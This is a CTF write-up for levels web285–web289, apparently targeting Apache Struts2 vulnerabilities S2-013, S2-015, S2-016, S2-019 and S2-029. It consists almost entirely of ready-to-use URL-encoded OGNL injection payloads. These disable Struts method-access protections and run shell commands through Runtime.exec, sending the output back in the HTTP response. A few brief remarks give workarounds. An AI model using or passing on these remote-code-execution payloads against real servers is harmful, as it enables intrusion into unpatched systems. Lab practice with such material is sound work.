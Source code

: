 ### web285

`s2-013`

payload
```java
/link.action?a=%24%7B%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec('id').getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B50000%5D%2C%23c.read(%23d)%2C%23out%3D%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2C%23out.println('dbapp%3D'%2Bnew%20java.lang.String(%23d))%2C%23out.close()%7D
```

### web286

`s2-015`

*payload*
```java
%24%7B%23context%5B%27xwork.MethodAccessor.denyMethodExecution%27%5D%3Dfalse%2C%23m%3D%23_memberAccess.getClass().getDeclaredField(%27allowStaticMethodAccess%27)%2C%23m.setAccessible(true)%2C%23m.set(%23_memberAccess%2Ctrue)%2C%23q%3D%40org.apache.commons.io.IOUtils%40toString(%40java.lang.Runtime%40getRuntime().exec(%27ls%27).getInputStream())%2C%23q%7D.action
```
但是命令里有`/`就执行不了命令...

### web287


`s2-016`

```java
default.action?redirect:%24%7B%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3Dfalse%2C%23f%3D%23_memberAccess.getClass().getDeclaredField(%22allowStaticMethodAccess%22)%2C%23f.setAccessible(true)%2C%23f.set(%23_memberAccess%2Ctrue)%2C%23a%3D%40java.lang.Runtime%40getRuntime().exec(%22env%22).getInputStream()%2C%23b%3Dnew%20java.io.InputStreamReader(%23a)%2C%23c%3Dnew%20java.io.BufferedReader(%23b)%2C%23d%3Dnew%20char%5B5000%5D%2C%23c.read(%23d)%2C%23genxor%3D%23context.get(%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22).getWriter()%2C%23genxor.println(%23d)%2C%23genxor.flush()%2C%23genxor.close()%7D
```

### web288
`s2-019`

payload没打通,使用liqunkit打通了

### web289
`s2-029`

*payload*
```java
default.action?message=(%23_memberAccess['allowPrivateAccess']=true,%23_memberAccess['allowProtectedAccess']=true,%23_memberAccess['excludedPackageNamePatterns']=%23_memberAccess['acceptProperties'],%23_memberAccess['excludedClasses']=%23_memberAccess['acceptProperties'],%23_memberAccess['allowPackageProtectedAccess']=true,%23_memberAccess['allowStaticMethodAccess']=true,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream()))
```
